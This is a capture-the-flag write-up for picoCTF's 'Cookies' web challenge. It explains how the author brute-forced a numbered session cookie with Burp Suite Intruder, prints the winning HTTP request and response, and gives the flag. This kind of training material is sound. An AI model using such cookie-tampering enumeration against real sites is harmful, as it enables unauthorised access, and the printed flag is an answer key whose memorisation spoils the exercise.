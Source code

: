 # Cookies


### Desccription :
Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:27177/

## Solution

As the name is 'Cookies', we can say that this is something about cookies.

when we enter some cookies name in input fild given it response something like ' I love COOKIE NAME cookies! '. we can not guess the currect cookie name, what we can do is we can change cookies value.

this website store cookies with value ' name:1 ' 

now we can change the value of that cookies ' name:1 ' manually like name:1, name:2, name:3 ..... and so on, or we can use burpsuit intruder for brutforcing this.

i use burpsuit intruder for this, in intruder set '1' as payload in ' name:1 ' and start attack. 

we can see that flag is in cookie ' name:18 '

```req
GET /check HTTP/1.1

Host: mercury.picoctf.net:27177

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://mercury.picoctf.net:27177/

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

Cookie: name=18

Connection: keep-alive
```

### response

```res
HTTP/1.1 200 OK

Content-Type: text/html; charset=utf-8

Content-Length: 1184



<!DOCTYPE html>
<html lang="en">

<head>
    <title>Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Cookies</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_064663be}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

</html>
```



#### flag :   picoCTF{3v3ry1_l0v3s_c00k135_064663be}